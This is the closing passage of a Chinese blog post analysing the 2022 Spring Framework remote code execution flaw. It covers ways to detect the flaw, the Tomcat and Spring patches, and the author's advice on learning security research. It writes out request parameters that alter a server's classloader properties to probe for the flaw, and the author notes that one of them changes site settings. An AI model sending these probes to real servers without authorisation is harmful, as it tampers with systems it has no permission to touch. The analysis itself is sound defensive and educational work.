[](https://storage.tttang.com/media/attachment/2022/04/04/d3d85280-4c5a-43b1-9bf8-282a3df7b754.png)

实际上我觉得应该还有其他的方式可以利用，应该是 EL 表达式，具体对应属性，可能还需要研究一下。

漏洞的解决办法官方已经提供的很详细了，可以参考：

[https://spring.io/blog/2022/03/31/spring-framework-rce-early-announcement](https://spring.io/blog/2022/03/31/spring-framework-rce-early-announcement)

漏洞的无害探测，实际上有一些师傅说了一些看法，如设置 cookies 的 path class.module.classLoader.resources.context.sessionCookiePath=/AAA，然后观察站点的 path 的即可，但这种方法对站点还是有一定的影响的，即使改成了 class.module.classLoader.resources.context.sessionCookiePath=/，但也不一定是原来的设定值了；还如设置 class.module.classLoader.DefaultAssertionStatus=x，x 为 0、1 时正常，其他值的时候，返回 400，说明就有漏洞，这个方式比较好，但如果设置了统一的报错信息，那也没有用。所以更好的探测方式师傅们可以继续研究一波

## [0x04 漏洞修复](#toc_0x04)

和 CVE-2010-1622 漏洞一样，Spring 官方和 Tomcat 都对这个漏洞进行了修复。

Tomcat 是对获取 resources 的方法给改成了 null，使我们没办法通过 resources 的方法来修改 Access Log 配置信息：

[](https://storage.tttang.com/media/attachment/2022/04/04/e993320e-e5ae-475b-9398-ffef7fb550e7.png)

Spring 官方则是完全限制死了，首先是对传入的属性进行了判断，第一是只允许为 name 并以 Name 结尾的属性，第二是属性返回的类型不是 Classloader 及 Classloader 子类：

[](https://storage.tttang.com/media/attachment/2022/04/04/abbe40fa-f3ae-4318-8a50-42ec4c7fbf5e.png)

如果能绕过，我想只有类似于[Java 沙箱逃逸](https://xz.aliyun.com/t/2844)那种方式，利用类型混淆漏洞来绕过了，不过要找到为 name 并以 Name 结尾的属性，且可以利用的，能够利用其进行强制类型转换的，有点难。

## [0x05 写在最后](#toc_0x05)

最后首先来回答一下最开始的三个问题如何去解决。

第一，基础不牢的问题。基础这个概念很广泛，广泛到什么都可以是基础，什么都可以不是基础，对于不是计算机专业的人来说，计算机的知识不是基础，是知识高度，但对于计算机专业的人来说，它是基础，同样的，对于不同的人来说，基础也是不同的。你也不知道你应该要学习哪些基础，并非是学习了数据结构、计算机网络或者操作系统这些基础科目就能帮你了解其他的所有事情的基础知识，这不现实，也不可能（当然这并不意味着数据结构、计算机网络或者操作系统这些基础科目不重要，只可能是因为你从事的工作内容并不需要这些东西）。那么应该如何去打牢基础呢？我的答案是看你在做什么，如果你在做的事情是普通的代码审计，那么你的基础就是各个漏洞的基础原理、代码审计常用的审计方法和流程以及各种漏洞组合利用的 tips 点；如果你在做的事情是对一个框架的安全性进行分析，那么你的基础就是了解这个框架的特色机制以及特色机制实现的原理、了解这个框架特色机制可能造成的 BUG 或者意料之外的操作（可以翻阅 issue、release 说明等文档）、了解这个框架的数据流是如何运作的以及了解这个框架的基础用法；如果你在做的事情是对框架底层的实现进行安全分析，那么你的基础可能是前面的基础之和了。**越难做的事情，其要求的基础也就越高。**

第二，积累不够的问题。积累的方式和手段有很多，小到做个备忘录记个 tips，大到写本书做个自我总结，都是积累的方式，对于我来说可能就是分析并记录当前爆出的一些漏洞，这也是为什么已经有很多人发了 Spring Framework RCE 漏洞的分析文章我还要写下此文的原因。别人写的东西只有自己吸收了，才是自己的，而你自己写的东西，很多时候你能够体会到文章里没有描述出的内容，这些内容可能给你带来新的灵感，并且目前我也在践行这个方法。比如我在分析 SpringCloud Gateway 漏洞的时候，就根据同原理发现了 SpringCLoud Function 的 CVE-2022-22963 漏洞（虽然被别人撞了），这些是很多没有去记录的人容易忽视的东西。**好记性不如烂笔头。**

第三，知识的广度的问题。知识的广度这个概念是个泛概念，因为你也不知道你所了解的东西或者知识面在整个安全的海洋中占据了多少面积，所以这个时候需要外力的帮助，一是有经验的人告诉你应该去掌握或者了解哪些东西，而是看看别人掌握了哪些东西或者正在了解学习哪些东西。**交流，是快速提升自我和找到不足的途径。**

其实没有一蹴而就的事情，很多时候都需要时间去帮你解决，这三个问题也同样如此，都需要时间慢慢的帮你变得强大，当然更多的是靠你自己主动去学习，生命不息，学习不止。

写下本文的目的一是做个漏洞分析总结，二是分享一些自己关于这个漏洞思考的其他感悟，如有不足，愿与君共勉。

最后感谢一些梅子师傅和彪哥的指点。

## [0x06 参考](#toc_0x06)

[https://spring.io/blog/2022/03/31/spring-framework-rce-early-announcement](https://spring.io/blog/2022/03/31/spring-framework-rce-early-announcement)

[https://segmentfault.com/a/1190000014833730](https://segmentfault.com/a/1190000014833730)

[https://www.liaoxuefeng.com/wiki/1252599548343744/1260474416351680](https://www.liaoxuefeng.com/wiki/1252599548343744/1260474416351680)

[https://juejin.cn/post/6900011887568617485](https://juejin.cn/post/6900011887568617485)

[https://www.jianshu.com/p/6eba6f6a293d](https://www.jianshu.com/p/6eba6f6a293d)

[https://www.redoc.top/article/178/Spring%20IOC%20%E5%AE%B9%E5%99%A8%E6%BA%90%E7%A0%81%E5%88%86%E6%9E%90%20-%20%E5%A1%AB%E5%85%85%E5%B1%9E%E6%80%A7%E5%88%B0%20bean%20%E5%8E%9F%E5%A7%8B%E5%AF%B9%E8%B1%A1](https://www.redoc.top/article/178/Spring%20IOC%20%E5%AE%B9%E5%99%A8%E6%BA%90%E7%A0%81%E5%88%86%E6%9E%90%20-%20%E5%A1%AB%E5%85%85%E5%B1%9E%E6%80%A7%E5%88%B0%20bean%20%E5%8E%9F%E5%A7%8B%E5%AF%B9%E8%B1%A1)

[https://www.cnblogs.com/peida/archive/2013/06/03/3090842.html](https://www.cnblogs.com/peida/archive/2013/06/03/3090842.html)

[http://rui0.cn/archives/1158](http://rui0.cn/archives/1158)

[https://github.com/spring-projects/spring-framework/commit/002546b3e4b8d791ea6acccb81eb3168f51abb15](https://github.com/spring-projects/spring-framework/commit/002546b3e4b8d791ea6acccb81eb3168f51abb15)
